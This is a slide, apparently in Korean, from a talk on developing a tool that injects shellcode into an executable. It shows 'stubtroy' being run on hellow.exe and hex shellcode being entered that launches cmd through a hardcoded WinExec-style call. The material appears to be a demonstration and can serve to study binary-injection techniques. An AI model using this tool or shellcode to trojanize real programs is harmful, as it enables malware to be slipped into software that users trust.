

# 프로그램 개발
작동 확인

쉘코드를 입력한다. 편의를 위해 16진수라고 명명해주는 \x 를 생략하고 공백으로 구분하여 쉘코드를 입력하게 했다.
C:\>stubtroy hellow.exe hellow_st.exe -m
Typing the Shellcode. Maximum length is 57
here:55 8b ec 53 33 db 89 5d fc c6 45 fc 63 c6 45 fd 6d c6 45 fe 64 6a 05 8d 45 fc 50 b8 29 32 c3 76 ff d0